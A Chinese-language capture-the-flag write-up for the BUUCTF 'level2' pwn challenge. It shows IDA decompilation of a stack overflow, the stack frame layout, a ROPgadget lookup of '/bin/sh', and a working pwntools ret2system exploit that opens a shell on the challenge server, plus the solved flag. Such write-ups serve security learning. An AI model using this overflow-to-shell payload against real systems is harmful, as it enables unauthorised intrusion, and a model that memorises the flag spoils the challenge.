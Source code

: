 用`IDA Pro 32bit`打开附件`level2`，按`F5`反汇编源码并查看主函数。

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

双击`vulnerable_function()`函数查看详情，可以看到该函数中有一个`char`型局部变量`buf`，其可用栈大小为`0x88`，但是`read()`函数限制从`stdin`中读入到`buf`的字节大小为`0x100`，显然存在栈溢出漏洞。

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```

双击`buf`变量查看其在函数栈中的情况，构造`payload`时可以先用`0x88`个字节占满`buf`变量，再用`0x4`个字节覆盖到栈帧`r`。

```assembly
-00000088 ; D/A/*   : change type (data/ascii/array)
-00000088 ; N       : rename
-00000088 ; U       : undefine
-00000088 ; Use data definition commands to create local variables and function arguments.
-00000088 ; Two special fields " r" and " s" represent return address and saved registers.
-00000088 ; Frame size: 88; Saved regs: 4; Purge: 0
-00000088 ;
-00000088
-00000088 buf             db 136 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

在`Functions window`中可以看到有个`system()`函数，其地址可以由`elf.symbols['system']`获得。使用`ROPgadget`可得`/bin/sh`的地址为`0x804a024`。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ ROPgadget --binary ./level2 --string "/bin/sh"    
Strings information
============================================================
0x : /bin/sh
```

编写`Python`代码求解，得到`flag{f0506726-1ac9-446a-8852-717784d3975d}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 28530)
elf = ELF('./level2')
system_addr = elf.symbols['system']
bin_sh_addr = 0x804a024 # ROPgadget --binary ./level2 --string "/bin/sh"
payload = b'a'*(0x88+0x4) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendlineafter(b'Input:\n', payload)
io.interactive()
```
